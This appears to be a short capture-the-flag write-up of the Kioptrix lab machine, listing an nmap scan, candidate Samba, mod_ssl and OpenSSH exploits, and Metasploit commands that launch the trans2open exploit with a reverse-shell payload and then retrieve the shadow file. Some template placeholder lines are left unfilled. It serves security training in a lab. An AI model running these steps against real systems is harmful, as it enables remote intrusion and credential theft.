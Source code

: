 # Kioptrix (192.168.64.3) CTF Write-Up

**Author:** Alan Garcia  
**Date:** 8/31/23

## Table of Contents
- [Introduction](#introduction)
- [Challenge Overview](#challenge-overview)
- [Initial Reconnaissance](#initial-reconnaissance)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
- [Flag Retrieval](#flag-retrieval)
- [Conclusion](#conclusion)
- [Resources](#resources)

---

## Introduction
CTF prepared by TCM https://academy.tcm-sec.com/

## Challenge Overview
This CTF had a difficulty of easy

## Initial Reconnaissance
Detail the information-gathering phase:
- IP : (192.168.64.3)
- NMAP revealed the following ports opened:

  nmap -A -p- -T4 192.168.64.3  
  PORT      STATE SERVICE     VERSION
  22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
  111/tcp   open  rpcbind     2 (RPC #100000)
  139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
  443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b

-139
  Interesting Items:
  SMB
  Unix (Samba 2.2.1a)
  
  Could anonymously connect to IPC with smbclient, but not Admin
  139- Potentially Vulnerable to:
  https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/
  https://www.exploit-db.com/exploits/10
  https://www.exploit-db.com/exploits/7

-80/443
  Interesting items:
  80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)

  Potentially Vulnerable to:
  mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. 
  http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
  https://github.com/heltonWernik/OpenLuck
-22
  SSH
   OpenSSH 2.9p2 (protocol 1.99)
   
   22- Possible Vulnerabilities
   https://www.exploit-db.com/exploits/21402
 
- Service enumeration (nmap, netcat, etc.)
- Analysis of open ports and running services
- Any initial clues or data found during this phase

## Exploitation

-The SMB (Samba) exploit:

I quickly found that the service running under port 139 (samba) was seriously vulnerable and decided to attack that. (Note: Samba is very similar to FTP / NFS, it’s basically a file-sharing system between Linux and Windows).

Searched for Samba 2.2.1a exploit on metasploit:


![Metasploit](./img/metasploit.png)

Loaded the exploit through metasploit:

msf6 exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
msf6 exploit(linux/samba/trans2open) > exploit

![Metasploit](./img/post.png)

## Flag Retrieval
Retrieved the shadow file:

![Metasploit](./img/metasploit.png)


## Resources
List any external sources, tools, or references you used:
- https://nmap.org/
- https://www.metasploit.com/
- https://www.metasploit.com/
